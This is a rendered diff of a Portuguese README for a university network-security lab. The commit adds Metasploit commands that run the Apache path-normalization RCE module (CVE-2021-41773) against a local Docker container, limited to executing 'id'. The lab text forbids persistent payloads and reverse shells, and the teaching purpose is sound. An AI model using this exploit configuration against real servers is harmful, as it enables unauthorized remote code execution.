

Before and after one commit to AlessandroDaudt/DisciplinaSegurancaRedeComputadores, a Markdown page: Aula 06 - Avaliação 2/lab-docker-vulnerabilidades/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Aula 06 - Avaliação 2/lab-docker-vulnerabilidades/README.md
+++ b/Aula 06 - Avaliação 2/lab-docker-vulnerabilidades/README.md
@@ -223,6 +223,24 @@ testar o módulo relacionado ao Apache. Abra uma console interativa no serviço:
 docker compose exec exploiter msfconsole -q
 ```
 
+Dentro do Metasploit:
+
+```text
+use exploit/multi/http/apache_normalize_path_rce
+set CVE CVE-2021-41773
+set RHOSTS apache
+set RPORT 80
+set SSL false
+set TARGETURI /cgi-bin
+set TARGET 1
+set PAYLOAD cmd/unix/generic
+set CMD id
+set AllowNoCleanup true
+check
+run
+exit
+```
+
 A prova deve ser limitada a uma informação inofensiva, como a identidade do
 processo (`id`) ou a leitura controlada de um arquivo de teste. Não use payload
 persistente, reverse shell ou conexão externa.
````
Also changed, not shown: Aula 06 - Avaliação 2/lab-docker-vulnerabilidades/roteiro.md (+59 -3 lines).
